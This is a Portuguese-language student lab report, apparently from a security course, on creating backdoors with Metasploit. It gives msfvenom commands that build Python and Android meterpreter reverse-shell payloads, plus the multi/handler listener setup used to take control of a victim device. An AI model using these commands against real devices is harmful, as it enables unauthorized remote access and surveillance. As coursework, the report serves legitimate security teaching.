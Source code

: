 # Backdoor
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/gleydson/BackdoorTutorial).

Não senti dificuldades para realizar a prática. O tutorial estava muito explicativo.

Na prática foi utilizado o SO Kali Linux, que já possui o ambiente pré configurado para o ataque.

### Realizando ataque em python

- Criando o payload

    Primeiramente, foi aberto o console do Metasploit Framework, ferramenta que axiliará na criação do backdoor, através do comando `msfconsole`.

    ![1](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/1.PNG)

    Para realizar o ataque em ***python*** bastou apenas criar o payload utilizando o ***msfvenom*** através do comando:
    > `msfvenom -p python/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA R > payload.py`
    
    ![2](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/2.PNG)

    Também foi passado o código gerado no payload por um decodificador de ***base64***.

    ![3](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/3.PNG)
    
### Realizando ataque em dispositivos android

1. Criando o payload
    O payload para android foi criado com o seguinte comando no ***msfvenom***:
    > `msfvenom -p android/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA R > payload.apk`

    ![4](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/4.PNG)

2. Iniciando o ataque
    A partir do payload criado, o ataque foi iniciado com os seguintes comandos:
    > `use multi/handler`

    > `set PAYLOAD android/meterpreter/reverse_tcp`

    > `set LHOST SEU_IP`

    > `set LPORT SUA_PORTA`
    
    > `exploit`

    ![5](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/5.PNG)

3. Realizando os ataques
    Após abrir instalar o payload o meterpreter conseguiu acesso ao dispositivo vítima. Agora, a vítima esta pronta para ser atacada.

    ![6](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/6.PNG)

    ![7](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/7.PNG)
